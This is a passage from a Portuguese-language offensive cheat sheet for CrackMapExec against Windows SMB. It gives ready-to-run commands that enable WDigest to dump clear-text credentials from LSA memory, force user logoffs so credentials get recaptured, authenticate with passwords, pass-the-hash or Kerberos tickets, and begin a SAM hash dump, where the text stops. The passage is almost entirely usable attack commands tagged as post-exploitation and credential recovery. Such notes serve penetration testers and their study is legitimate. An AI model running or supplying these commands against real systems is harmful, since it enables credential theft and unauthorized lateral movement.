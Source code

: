 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.
habilita/desabilita o provedor WDigest e realiza um dump de credenciais em texto plano da memoria do LSA.

```bash
cme smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## cme - desloga um usuário
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Pode ser util depois de habilitar o wdigest para forçar o usuário a se reconectar.

```bash
cme smb <ip> -u <user> -p '<password>' -x 'quser'
cme smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## cme - autenticação local
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## cme - autenticação local usando hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## cme - autenticação no dominio
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> -d <domain>
```

## cme - autenticação utilizando kerberos 
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <ip> --kerberos
```

## cme - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Realiza o dump das hashes do SAM usado metodos do secretsdump.py
É necessario ter no minimo privilégio de administrador local no alvo remoto, use a opção --local-auth se o usuario é uma conta local
